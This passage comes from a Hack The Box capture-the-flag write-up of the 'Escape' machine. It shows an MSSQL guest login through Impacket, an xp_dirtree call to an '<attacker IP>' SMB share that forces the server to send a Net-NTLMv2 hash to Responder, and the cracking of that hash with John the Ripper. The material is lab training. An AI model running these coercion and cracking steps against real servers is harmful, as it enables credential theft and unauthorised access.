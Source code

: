 This indicated that it was possible to login with PublicUser into the SQL database. This admittedly took longer than it should to find a viable way to log into SQL remotely, so it was nice to get the refresher.
After searching the vastness of google, and many attempts.. I was able to get into the SQL server using a tool from the Impacket toolkit:
```
mssqlclient 'PublicUser:GuestUserCantWrite1@10.10.11.202'
```
Credit to: https://medium.com/@oumasydney2000/mssql-enumeration-1433-1ee5fa6ac5d3 for that and this next bit.

After logging into the SQL server I noticed the user could not use the xp_cmdshell nor enable it, so there had to be another way to get a foothold.
I fell hard into the rabbit hole, and ended up browsing every database that I was able to print out using:
```
SQL> SELECT name FROM master.dbo.sysdatabases;
name                                                                                                                               
--------------------------------------------------------------------------------------------------------------------------------   
master                   
tempdb                                                                                                                             
model                                                                                                                               
msdb 
```
After a while of searching around I had to resort to using a hint from the HTB Guided mode that indicated "Get the MSSQL server to read a file from an SMB host you control, and watch for the authentication." 

This hint was super helpful, but being rusty I was unsure of how to even go about doing this, so I turned to the legend himself 0xdf. Credit to his walkthrough: https://0xdf.gitlab.io/2023/06/17/htb-escape.html#shell-as-sql_svc for getting me past this next hurdle.

In his walkthrough he ends up setting up a responder and trying to connect back to his machine in order to get the Net-NTLMv2 hash of the user running the SQL server.

Following pretty much step by step, I setup my responder on the tun0 (whichever interface has your vpn) and ran:
```
EXEC xp_dirtree '\\<attacker IP>\share', 1, 1
```
Sure enough responder popped with a NTLMv2 hash:
![Escape NTLMv2 Hash](/docs/assets/Escape-Screenshot-2.png)

Taking this to john the ripper with the --format=netntlmv2 flag and it was able to crack it:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=netntlmv2 
```
now we had the creds for sql_svc, and I was able to use evil-WinRM to login (thanks to the port 5985)
